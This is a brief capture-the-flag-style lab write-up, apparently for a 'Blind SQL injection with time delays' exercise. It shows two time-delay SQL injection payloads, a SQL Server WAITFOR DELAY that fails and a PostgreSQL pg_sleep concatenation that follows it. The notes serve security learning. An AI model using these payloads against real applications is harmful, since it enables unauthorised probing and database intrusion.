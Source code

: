 
### Blind SQL injection with time delays : PRACTITIONER

---

> Add the payload
```
' || WAITFOR DELAY '0:0:10' --
```
> Doesn't work. Maybe PostgreSql
```
' ||( SELECT pg_sleep(10)) --'
```

---
